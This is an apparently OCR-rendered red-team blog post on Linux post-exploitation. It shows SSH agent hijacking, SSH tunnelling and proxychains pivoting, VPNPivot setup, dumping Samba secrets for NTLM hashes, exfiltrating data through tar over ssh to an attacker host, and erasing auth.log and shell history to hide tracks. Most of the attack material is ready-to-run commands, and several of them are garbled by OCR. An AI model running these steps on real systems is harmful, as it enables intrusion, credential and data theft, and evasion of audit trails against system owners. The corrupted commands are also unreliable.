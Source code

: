 ```yaml
---
layout: post
published: false
title: Linux Post Exploitation 10.4
---
```

## Linux Lateral Movement And Exfiltration & more.


## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking*

In order for this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

``
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can login to remote systems as the victim
ssh remote_system -l vicitm
``

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 ,forward to attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunnelling

``
https://github.com/sshuttle/sshuttle
``

**Proxy chaining**

ProxyChains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal hosts services and internal network.

**VPNPivot**
VPN Pivot sends and receive a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured.

Installation

``
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
``
**Usage :**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
``
The options are :

    server IP : the IP address of the server (pivots)
    
    server port : the port which the server is listening on
    
    locale IP : the IP address of the network interface connected to the unreachable network.
    
    MTU	: the MUT is optional unless you're changing it in pivots
``




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in domain we can compromise it using pass the hash technic.

I will explain pass the hash in upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from target machine, and owning that data to see severity.

There are many techniques to move data from target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing  hands, after did a sin. 

Clear auth.log file
``
echo "" /var/log/auth.log
``
Clear current user bash history
``
echo "" -/.bash history
``
Delete .bash_history file
``
rm -/.bash histor/ -rf
``
Clear current session history
``
history -c
``
Set history max lines to 0
``
export HISTFILESIZE=O
``
Set histroy max commands to 0
``
export HISTSIZE=O
``
To kill current session
``
kill -9 $$
``
To perrnanently send all bash history commands to /dev/null
``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practise.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistance in upcoming red team series.**_









































